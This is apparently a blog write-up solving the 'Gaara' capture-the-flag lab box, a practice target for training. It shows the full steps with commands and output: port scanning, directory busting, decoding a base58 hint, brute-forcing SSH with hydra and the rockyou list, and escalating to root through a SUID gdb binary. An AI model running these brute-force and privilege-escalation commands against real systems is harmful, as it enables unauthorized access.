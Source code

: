 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/gaara-1,629/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery
Performing a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p22,80 -sV 192.168.55.142
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 16:27 EST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 16:28 (0:00:07 remaining)
Nmap scan report for 192.168.55.142
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds
```

## dir busting
Use `gobuster` or another dir busting tool to identify 'hidden' resources on the web server on port 80.

> The resource `/Cryoserver` can be identified
{: .prompt-info}

Requesting the resource exposes other resources to check.
- `/Temari`
- `/Kazekage`
- `/iamGaara`

Requesting `http://192.168.55.142/iamGaara` exposes a list of strings. The following string catches our attention: `f1MgN9mTf9SNbzRygcU`

> Trying to decode that string with `echo 'f1MgN9mTf9SNbzRygcU' | base64 -d` does not work, so it does not seem to be `base64`
{: .prompt-danger}

Playing around with [`cyberchef`](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)&input=ZjFNZ045bVRmOVNOYnpSeWdjVQ) reveals that it is `base58` encoded.  

> The decoded text is `gaara:ismyname` and indicates that `gaara` may be a system account.
{: .prompt-info}

---

# exploitation
We are using `hydra` to check if `gaara` used a weak password.
```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -V 192.168.55.142 ssh
```
> It worked! `gaara` uses the password `iloveyou2`.
{: .prompt-info}

---

# post exploitation
## log in via `ssh` and get first flag
```bash
$ ssh gaara@192.168.55.142                                           
gaara@192.168.55.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 20 16:38:23 2022 from 192.168.49.55

gaara@Gaara:~$ pwd
/home/gaara
gaara@Gaara:~$ cat local.txt 
a******************************1
```

## privilege escalation
### looking for `SUID` binaries owned by `root`
```bash
gaara@Gaara:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwxr-sr-x 1 root crontab 43568 Oct 11  2019 /usr/bin/crontab
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-sr-x 1 root root 7570720 Dec 24  2018 /usr/bin/gimp-2.10
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwxr-sr-x 1 root ssh 321672 Jan 31  2020 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
```

> Analyzing the output and checking the binaries on [gtfobins](https://gtfobins.github.io/gtfobins/gdb/#suid) shows that `gdb` can be exploited to get `root` access.
{: .prompt-info}

### exploiting `gdb` to get `root` access
```bash
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
```

> Root! =)
{: .prompt-info}

## get second flag
```bash
# cd /root      
# ls
proof.txt  root.txt
# cat proof.txt
6******************************6
```

Pwned! <@:-)
